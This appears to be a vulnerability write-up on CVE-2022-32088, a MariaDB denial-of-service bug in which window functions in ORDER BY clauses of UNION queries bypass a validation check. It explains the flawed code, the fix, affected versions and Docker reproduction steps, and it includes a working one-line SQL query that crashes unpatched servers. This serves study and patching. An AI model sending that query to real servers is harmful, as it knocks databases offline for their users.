



# CVE-2022-32088 CWE-None MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
MariaDB's SQL parser fails to prevent the use of the Window Function in `ORDER BY` clauses of `UNION` queries, which is an inappropriate operation, allowing carefully constructed queries to bypass pre-checks and trigger segmentation errors at subsequent execution stages (such as `filesort`-related components) due to access to invalid memory pointers. This ultimately causes database service crashes.

## Vulnerability Location
Analysis of MariaDB 10.6.0:

In the sql\sql_select.cc file, line 24934 `setup_order` function is used to parse and validate `ORDER BY` clauses in SQL queries.

The condition statement on line 24956 is used to check whether the clause contains an aggregation function; if so, proceed to the next check

The conditional statement on line 24964 is used to check that this query is an `UNION` query. If the clause contains an aggregate function and is a UNION query, an error is generated and no further processing is performed.

However, there is a clear logical oversight in this code: it correctly handles **aggregation functions** (`SUM`, `AVG`, etc.), but completely does not consider window functions (`ROW_NUMBER()`, `RANK()`, `LEAD()`, etc.). According to SQL standards and database logic, window functions, like aggregation functions, are generally not allowed in `ORDER BY` clauses of `UNION` queries.

```c
int setup_order(THD *thd, Ref_ptr_array ref_pointer_array, TABLE_LIST *tables,
                List<Item> &fields, List<Item> &all_fields, ORDER *order,
                bool from_window_spec)
{ 
  SELECT_LEX *select = thd->lex->current_select;
  enum_parsing_place context_analysis_place=
                     thd->lex->current_select->context_analysis_place;
  thd->where="order clause";
  const bool for_union= select->master_unit()->is_unit_op() &&
    select == select->master_unit()->fake_select_lex;
    // Traverse every item in the ORDER BY clause
  for (uint number = 1; order; order=order->next, number++)
  {
    if (find_order_in_list(thd, ref_pointer_array, tables, order, fields,
                           all_fields, false, true, from_window_spec))
      return 1;
    if ((*order->item)->with_window_func() &&
        context_analysis_place != IN_ORDER_BY)
    {
      my_error(ER_WINDOW_FUNCTION_IN_WINDOW_SPEC, MYF(0));
      return 1;
    }

// 24956 lines ********** If the current item is not an aggregate function, skip the following checks and continue handling the next *********** vulnerability point*****
    if (!(*order->item)->with_sum_func())
      continue;

// 24964 lines ********** if it is a UNION query********
    if (for_union)
    {
        // Error: UNION queries using ORDER BY cannot use aggregation functions
      my_error(ER_AGGREGATE_ORDER_FOR_UNION, MYF(0), number);
      return 1;
    }

    if (from_window_spec && (*order->item)->type() != Item::SUM_FUNC_ITEM)
      (*order->item)->split_sum_func(thd, ref_pointer_array,
                                     all_fields, SPLIT_SUM_SELECT);
  }
  return 0;
}
```

## Remediation
Add condition: If this is a `UNION` query and the item in the `ORDER BY` clause is an aggregation function or a window function, an error will be reported.

```c
if (for_union &&
    (item->with_sum_func() || item->with_window_func()))
{
  my_error(ER_AGGREGATE_ORDER_FOR_UNION, MYF(0), number);
  return 1;
}
```

## Affected Versions
**Affected version:** MariaDB:

- 10.2.0 to 10.2.43
- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator is root, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2022-32088-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32088-PoC.sql, and you will see that an error has been encountered and the container automatically closes

```sql
source CVE-2022-32088-PoC.sql
```



4. Review the MariaDB crash log, and you can see that `[ERROR] mysqld got signal 11` segment of error caused DoS, with the problem originating in the `Filesort_tracker` and corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
SELECT 1 UNION SELECT 1 ORDER BY max(1) OVER ();
```

`max(1)`: This is an aggregation function that calculates the maximum value. `OVER ()` transformed an ordinary aggregate function `max()` into a **window function**.

MariaDB only checks `(*order->item)->with_sum_func()`, meaning it checks whether the term in `ORDER BY` is an **aggregate function**. However, when a `OVER()` clause exists, `max(1) OVER ()` is recognized in the parsing tree as a `Item_window_func` object, not a `Item_sum_func` object. Therefore, `with_sum_func()` returns `false`, causing the `if (!(*order->item)->with_sum_func()) continue;` in the old code to be not executed and the check to be successfully bypassed.

## References
[NVD - CVE-2022-32088](https://nvd.nist.gov/vuln/detail/CVE-2022-32088)

[[MDEV-26419\] Segment error in Exec_time_tracker::get_loops/Filesort_tracker::report_use/filesort - Jira --- [MDEV-26419] A SEGV in Exec_time_tracker::get_loops/Filesort_tracker::report_ use/filesort - Jira](https://jira.mariadb.org/browse/MDEV-26419)

[[MDEV-15208\] server crashed, when using ORDER BY with window function and UNION - Jira](https://jira.mariadb.org/browse/MDEV-15208)

[MDEV-15208: server crashed, when using ORDER BY with window function … ·  MariaDB/server@942a979](https://github.com/MariaDB/server/commit/942a9791b2231273ba20649a658c856641268fae)

[Comparing mariadb-10.6.7... mariadb-10.6.8 · MariaDB/server](https://github.com/MariaDB/server/compare/mariadb-10.6.7...mariadb-10.6.8)
